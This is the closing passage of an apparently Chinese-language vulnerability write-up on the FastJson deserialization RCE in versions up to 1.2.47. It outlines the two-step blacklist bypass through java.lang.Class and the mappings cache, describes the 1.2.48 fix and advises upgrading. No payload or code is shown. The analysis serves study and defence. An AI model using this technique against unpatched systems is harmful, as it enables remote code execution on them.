

完整调用链：



  

04

总结和修复

本次利用分两步：

第一步利用 java.lang.Class 将恶意类加载到 mappings 中；

第二步从 mappings 中取出恶意类并绕过黑名单进行了反序列化。

在 1.2.48 中，首先将 java.lang.class 类加入黑名单，然后将 MiscCodec 类中的 cache 参数默认为 false，对于 checkAutoType() 也调整相关逻辑。尽快升级，据说当年 hw 一片。

  

05

结语

上面首先讲述了 1.2.41-1.2.43 的愚蠢问题，之后跟踪了 <=1.2.47 的 RCE，相信已经非常清楚了，在之后 FastJson 又曝出了其他问题，下篇文章继续学习。


  

------------------------------------------------------------------------------------------------------------------------------------------------

**戳 “阅读原文” 查看更多内容**

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
